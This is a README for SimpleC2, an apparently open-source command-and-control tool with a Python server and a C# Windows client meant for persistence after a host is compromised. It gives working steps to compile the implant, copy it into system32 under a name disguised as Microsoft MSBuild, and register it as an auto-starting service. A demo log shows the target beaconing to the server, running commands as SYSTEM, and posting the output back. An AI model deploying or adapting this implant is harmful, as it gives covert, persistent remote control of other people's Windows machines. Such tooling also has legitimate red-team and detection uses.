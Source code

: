 # SimpleC2

SimpleC2 is a command and control composed of a server written in Python and a client written in C# for the Windows hosts.
The client is installed to maintain persistence after the exploitation phase (Post-Exploitation).
The executable is a Windows Service. The structure is the classic client - server

We start the server with the command
```
python3 server.py  
```
Inside the server we can establish on which addresses binding and on which TCP port. 
We can also establish the password for the AES encryption.

The password is sent to the client (target) every time. This also allows you to implement randomness
passwords for each transmission.

The target connects every 15 seconds (modifiable) looking for the path /1. If the cmd.txt file is present in the local folder, it comes
executed the written command.

For example to insert a command within the local server folder:
```
echo net user > cmd.txt
echo dir c:\\ > cmd.txt
.... 
```
This also allows you to deposit the command from a remote machine. At the end of the execution, the server delete the file
containing the command.


To install the client (post exploitation case -> admin privilege)

- Edit the server or the redirector IP, the TCP port and the beaconing time

- compile source code with visual studio (2022) in release mode

- copy exe file in c:\windows\system32 
```
ex. copy .\MsBuildInstaller.exe c:\windows\system32\MsBuildInstaller.exe
```

- Create the service as persistence
```
sc create MsBuildInstaller binpath="c:\windows\system32\MsBuildInstaller.exe" DisplayName="Microsoft MSBuild Installer" start=Auto
```
  
- run service 
```
sc start MsBuildInstaller
```

Demo server python

└─$ python3 server.py                                               
```
C2 on 0.0.0.0 port 8081 (http://0.0.0.0:8081)
10.0.2.27 - - [24/Oct/2024 13:28:52] "GET /1 HTTP/1.1" 200 -
10.0.2.27 - - [24/Oct/2024 13:29:07] "GET /1 HTTP/1.1" 200 -
10.0.2.27 - - [24/Oct/2024 13:29:22] "GET /1 HTTP/1.1" 200 -
10.0.2.27 - - [24/Oct/2024 13:29:37] "GET /1 HTTP/1.1" 200 -

10.0.2.27 - - [24/Oct/2024 13:36:15] "GET /1 HTTP/1.1" 200 - 
====================================================
 Il volume nell'unit… C non ha etichetta.
 Numero di serie del volume: FCFA-9FC8

 Directory di c:\

23/10/2024  23:37             5.333 log.txt
07/12/2019  11:14    <DIR>          PerfLogs
23/10/2024  18:06    <DIR>          Program Files
04/12/2023  04:53    <DIR>          Program Files (x86)
23/10/2024  17:49    <DIR>          Users
23/10/2024  22:32    <DIR>          Windows
               1 File          5.333 byte
               5 Directory  21.644.783.616 byte disponibili

====================================================
10.0.2.27 - - [24/Oct/2024 13:36:16] "POST /2 HTTP/1.1" 200 -
10.0.2.27 - - [24/Oct/2024 13:36:30] "GET /1 HTTP/1.1" 200 - 
====================================================
nt authority\system

====================================================
10.0.2.27 - - [24/Oct/2024 13:36:31] "POST /2 HTTP/1.1" 200 -
```
